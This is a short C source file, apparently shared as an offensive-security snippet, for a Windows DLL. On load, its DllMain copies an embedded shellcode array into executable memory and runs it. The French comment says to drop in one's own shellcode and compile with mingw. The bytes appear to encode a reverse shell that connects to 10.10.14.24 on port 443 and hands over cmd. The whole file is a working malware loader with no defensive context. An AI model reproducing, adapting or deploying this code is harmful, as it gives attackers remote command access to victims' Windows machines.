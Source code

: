 ### DLL Obfuscated
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hinsDLL, DWORD fdwReason, LPVOID lpvReserved){

  char comment[] = "code source basique pour une DLL compilable depuis linux avec execution du sc ||testable avec rundl32.exe ||placer son sc puis compiler avec: i686-w64-mingw32-gcc code.c -o out.dll -shared" ;

  char sc[] = { 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1, 0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77, 0x73, 0x32, 0x5f, 0x54, 0x68, 0x4c, 0x77, 0x26, 0x07, 0xff, 0xd5, 0xb8, 0x90, 0x01, 0x00, 0x00, 0x29, 0xc4, 0x54, 0x50, 0x68, 0x29, 0x80, 0x6b, 0x00, 0xff, 0xd5, 0x50, 0x50, 0x50, 0x50, 0x40, 0x50, 0x40, 0x50, 0x68, 0xea, 0x0f, 0xdf, 0xe0, 0xff, 0xd5, 0x97, 0x6a, 0x05, 0x68, 0x0a, 0x0a, 0x0e, 0x18, 0x68, 0x02, 0x00, 0x01, 0xbb, 0x89, 0xe6, 0x6a, 0x10, 0x56, 0x57, 0x68, 0x99, 0xa5, 0x74, 0x61, 0xff, 0xd5, 0x85, 0xc0, 0x74, 0x0c, 0xff, 0x4e, 0x08, 0x75, 0xec, 0x68, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x68, 0x63, 0x6d, 0x64, 0x00, 0x89, 0xe3, 0x57, 0x57, 0x57, 0x31, 0xf6, 0x6a, 0x12, 0x59, 0x56, 0xe2, 0xfd, 0x66, 0xc7, 0x44, 0x24, 0x3c, 0x01, 0x01, 0x8d, 0x44, 0x24, 0x10, 0xc6, 0x00, 0x44, 0x54, 0x50, 0x56, 0x56, 0x56, 0x46, 0x56, 0x4e, 0x56, 0x56, 0x53, 0x56, 0x68, 0x79, 0xcc, 0x3f, 0x86, 0xff, 0xd5, 0x89, 0xe0, 0x4e, 0x56, 0x46, 0xff, 0x30, 0x68, 0x08, 0x87, 0x1d, 0x60, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x53, 0xff, 0xd5 };

  char first[] = {0xfc};
  void *exec = VirtualAlloc(0, sizeof sc, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(sc, first, 1);
  memcpy(exec, sc, sizeof sc);
  ((void(*)())exec)();
  return 0;
}



